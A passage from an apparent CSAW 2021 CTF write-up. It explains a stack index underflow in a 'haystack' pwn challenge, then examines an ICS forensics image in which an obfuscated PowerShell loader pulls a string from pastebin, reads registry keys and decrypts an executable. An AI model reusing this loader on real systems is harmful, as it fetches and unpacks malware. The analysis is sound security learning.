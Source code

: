 🧐

The only vulnerability I caught was an underflow in the haystack check -- it checked the upper bound but not the lower bound so we could guess any location on the stack. It also displays 4 bytes at the guessed location. I guessed with a negative number to leak the randomly generated location for the needle and then guessed that location. 

![](/ctf/csaw-quals-2021/haystack_flag.png)

## tripping breakers (ics, 481)

```text
Attached is a forensics capture of an HMI (human machine interface) containing scheduled tasks, registry hives, and user profile of an operator account. There is a scheduled task that executed in April 2021 that tripped various breakers by sending DNP3 messages. We would like your help clarifying some information. What was the IP address of the substation_c, and how many total breakers were tripped by this scheduled task? Flag format: flag{IP-Address:# of breakers}. For example if substation_c's IP address was 192.168.1.2 and there were 45 total breakers tripped, the flag would be flag{192.168.1.2:45}.
```

Looking around the filesystem finds us this lovely powershell script in Temp. 

```powershell
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");$SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP)); $E=(Get-ItemProperty -Path $SLPH -Name Blast)."Blast";$TWR =  "!M[[pcU09%d^kV&l#9*0XFd]cVG93<".Replace("!","SEt").Replace("@","q").Replace("#","jcm").Replace("<","ZXI=").Replace("%","GVF").Replace("^","BU").Replace("&","cTW").Replace("*","zb2Z").Replace("[","T").Replace("]","iZW1").Replace("{","Fdi");$BRN = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($TWR)); $D= (Get-ItemProperty -Path $BRN -Name Off)."Off";openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "c:\1\fate.exe";
```
